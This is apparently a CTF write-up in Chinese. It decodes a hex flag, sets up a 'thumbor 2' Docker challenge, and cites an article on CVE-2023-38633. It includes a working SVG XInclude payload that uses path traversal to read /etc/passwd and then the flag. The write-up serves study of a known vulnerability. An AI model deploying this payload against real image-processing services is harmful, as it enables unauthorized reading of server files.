

```python
text="54504354467b2e2e2e7d0a"
print(bytes.fromhex(text).decode("utf-8"))
```



然后打了一遍靶机也拿到flag了

## thumbor 2

```
docker build -t thumbor2 .
docker run -d --name thumbor2_container -p 8888:8888 thumbor2
docker exec -it e12407bb5a87 /bin/bash
```

[文章](https://www.canva.dev/blog/engineering/when-url-parsers-disagree-cve-2023-38633/) 不是哥们xxe还可以这么玩啊？

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>  
<svg width="1000" height="1000" xmlns:xi="http://www.w3.org/2001/XInclude">  
   <rect width="600" height="600" style="fill:rgb(255,255,255);" />  
   <text x="10" y="100">  
     <xi:include href=".?../../../../../../../../etc/passwd" parse="text"   
encoding="UTF-8">  
       <xi:fallback>file not found</xi:fallback>  
     </xi:include>  
   </text>  
</svg>
```



读flag就好了


